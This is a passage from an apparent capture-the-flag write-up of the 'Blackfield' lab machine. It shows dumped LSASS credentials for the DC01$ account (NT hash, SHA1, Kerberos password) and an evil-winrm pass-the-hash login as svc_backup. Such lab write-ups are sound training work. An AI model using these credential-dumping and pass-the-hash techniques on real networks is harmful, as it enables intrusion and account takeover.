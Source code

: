 ```bash
   Password: &SYVE+<ynu`Ql;gvEE!f$DoO0F+,gP@P`fra`z4&G3K'mH:&'K^SW$FNWWx7J-N$^'bzB1Duc3^Ez]En kh`b'YSV7Ml#@G3@*(b$]j%#L^[Q`nCP'<Vb0I6
   password (hex)260053005900560045002b003c0079006e007500600051006c003b00670076004500450021006600240044006f004f00300046002b002c006700500040005000600066007200610060007a0034002600470033004b0027006d0048003a00260027004b005e0053005700240046004e0057005700780037004a002d004e0024005e00270062007a004200310044007500630033005e0045007a005d0045006e0020006b00680060006200270059005300560037004d006c00230040004700330040002a002800620024005d006a00250023004c005e005b00510060006e004300500027003c0056006200300049003600
  == WDIGEST [5950b]==
   username DC01$
   domainname BLACKFIELD
   password None
   password (hex)

== LogonSession ==
authentication_id 365493 (593b5)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2020-02-23T17:59:38.200147+00:00
sid S-1-5-96-0-2
luid 365493
  == MSV ==
   Username: DC01$
   Domain: BLACKFIELD
   LM: NA
   NT: b624dc83a27cc29da11d9bf25efea796
   SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
   DPAPI: 0000000000000000000000000000000000000000
  == WDIGEST [593b5]==
   username DC01$
   domainname BLACKFIELD
   password None
   password (hex)
  == Kerberos ==
   Username: DC01$
   Domain: BLACKFIELD.local
   Password: &SYVE+<ynu`Ql;gvEE!f$DoO0F+,gP@P`fra`z4&G3K'mH:&'K^SW$FNWWx7J-N$^'bzB1Duc3^Ez]En kh`b'YSV7Ml#@G3@*(b$]j%#L^[Q`nCP'<Vb0I6
   password (hex)260053005900560045002b003c0079006e00750

```

Successfully established an Evil-WinRM shell as the user `svc_backup` using the Pass-The-Hash technique

```bash
evil-winrm -i 10.129.229.17  -u svc_backup  -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

```
